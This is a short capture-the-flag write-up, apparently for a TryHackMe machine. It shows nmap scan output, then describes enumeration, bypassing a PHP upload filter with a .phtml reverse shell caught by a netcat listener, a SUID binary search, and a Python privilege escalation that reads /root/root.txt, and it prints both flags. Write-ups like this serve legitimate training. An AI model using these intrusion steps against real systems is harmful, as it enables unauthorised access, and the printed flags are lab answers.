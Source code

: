 `Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 19:29 UTC`
`Nmap scan report for 10.201.74.203`
`Host is up (0.13s latency).`
`Not shown: 65533 closed tcp ports (reset)`
`PORT   STATE SERVICE VERSION`
`22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   3072 d2:f0:3b:4a:2d:40:11:4a:b8:da:fa:3e:b1:98:99:af (RSA)`
`|   256 2b:28:35:42:06:56:fd:26:9a:d6:af:d4:d9:f0:e0:ef (ECDSA)`
`|_  256 86:20:52:71:13:dc:09:1d:b4:92:59:2c:b4:83:ae:b3 (ED25519)`
`80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))`
`|_http-title: HackIT - Home`
`|_http-server-header: Apache/2.4.41 (Ubuntu)`
`| http-cookie-flags:` 
`|   /:` 
`|     PHPSESSID:` 
`|_      httponly flag not set`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 79.17 seconds`

We can see there is an Apache on port 80.

Base url just shows "Can you root me"

If we enumerate with ffuf we will find the subdirectory /panel/ and /uploads/

We can use this for a revshell.
Inital attempt the upload doesn't allow .php so we can use an alterative file extension of .phtml

Then we go to /uploads/, start our nc -lnvp 9001 and execute it on that page to get initial foothold

You will find user.txt in /var/www/user.txt
THM{y0u_g0t_a_sh3ll}

We look at SUID binaries to see what we can use to escalate
`find` `/ -perm -u=s -``type` `f 2>``/dev/null`

We find /usr/bin/python2.7

GTFOBins shows us that to build a shell we use 
```
python -c 'import os; os.system("/bin/sh")'
```

Then to use this shell to our advantage we can use file read
python -c 'print(open("/root/root.txt").read())'

This prints the root flag of THM{pr1v1l3g3_3sc4l4t10n}

Short and sweet. Almost eJPT time!